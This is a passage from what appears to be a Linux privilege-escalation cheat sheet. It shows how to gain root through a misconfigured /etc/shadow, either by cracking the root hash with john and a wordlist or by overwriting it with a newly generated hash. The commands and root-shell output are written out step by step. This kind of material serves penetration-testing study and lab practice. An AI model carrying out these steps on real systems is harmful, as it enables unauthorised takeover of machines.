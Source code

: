     ```
    $ echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl
    aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'
    ```
4.  Crack the password hash using john:

    ```
    $ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ...
    password123 (?)
    ```
5.  Authenticate with the password cracked:

    ```
    $ su
    Password:
    root@victim:/# id
    uid=0(root) gid=0(root) groups=0(root)
    ```

#### Alternative Shadow Privilege Escalation Method

1.  Enumerate the permissions of the /etc/shadow file:

    ```
    $ ls -l /etc/shadow
    -rw-r—rw- 1 root shadow 810 May 15 2021 /etc/shadow
    ```

    > Note that it is world writable.
2. Back up the contents of /etc/shadow so we can restore it later.
3.  Generate a new SHA-512 password hash with `mkpasswd`:

    ```
    $ mkpasswd -m sha-512 newpassword
    $6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoOlL9VE
    WwO/okK3vi1IdVaO9.xt4IQMY4OUj/
    ```
4.  Modify the /etc/shadow and replace the root user’s password hash with the one you generated.

    ```
    root:$6$DoH8o2GhA$5A7DHvXfkIQO1Zctb834b.SWIim2NBNys9D9h5wUvYK3IOGdxoO
    lL9VEWwO/okK3vi1IdVaO9.xt4IQMY4OUj/:17298:0:99999:7:::
    ```
5.  Authenticate with the password cracked:

    ```
    $ su
    Password:
    root@victim:/# id
    uid=0(root) gid=0(root) groups=0(root)
    ```

### /etc/passwd
